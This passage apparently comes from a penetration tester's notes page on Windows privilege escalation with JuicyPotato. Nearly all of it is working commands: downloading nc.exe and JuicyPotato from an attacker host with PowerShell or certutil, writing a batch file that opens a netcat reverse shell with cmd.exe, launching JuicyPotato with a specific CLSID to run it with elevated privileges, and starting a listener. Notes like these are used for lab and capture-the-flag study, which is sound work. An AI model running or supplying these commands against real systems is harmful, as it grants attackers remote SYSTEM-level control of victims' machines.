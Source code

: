 ```
C:\Windows\system32>whoami /priv
```

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Download nc.exe and juicypotato.exe to the victim host , then simply upload both to a writable directoy. I normall just write to a temp folder under \appdata\local\temp\\.

```
powershell.exe invoke-webrequest -uri http://$attackerip/nc.exe -outfile C:\users\user\appdata\local\temp\nc.exe
```

```
powershell.exe invoke-webrequest -uri http://$attackerip/JuicyPotato.exe -outfile C:\users\user\appdata\local\temp\jp.exe
```

If powershell isn't working, try with _certutil_ command.

```
certutil -urlcache -split -f http://$attackerip/JuicyPotato.exe jp.exe
```

Then create a rev.bat ( reverse shell bash ) file to get a reverseshell&#x20;

```
echo C:\users\user\appdata\local\temp\nc.exe -e cmd.exe 10.10.14.39 1340 > rev.bat
powershell.exe invoke-webrequest -uri http://$attackerip/rev.bat -outfile C:\users\user\appdata\local\temp\rev.bat
```

Then run Juicy with the correct  `clsid.`

```
jp.exe -t * -p C:\users\user\appdata\local\temp\rev.bat -l 1340 -c '{8F5DF053-3013-4dd8-B5F4-88214E81C0CF}'
```

On the attacker host, start the listener with some uncommon port

```
nc -lnvp 1340 
```

## Abusing Permission Issue
